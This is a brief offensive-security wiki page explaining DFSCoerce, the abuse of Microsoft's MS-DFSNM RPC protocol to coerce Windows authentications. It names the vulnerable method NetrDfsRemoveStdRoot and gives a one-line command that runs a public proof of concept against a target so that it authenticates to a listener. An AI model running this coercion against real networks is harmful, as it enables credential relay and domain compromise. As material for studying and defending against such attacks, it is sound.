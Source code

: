 # MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)) and is available as an RPC interface. That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip\_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case, at the time of writing, one method was detected vulnerable: `NetrDfsRemoveStdRoot`.

## Practice

The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

## Resources

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979" %}

{% embed url="https://github.com/Wh04m1001/DFSCoerce" %}
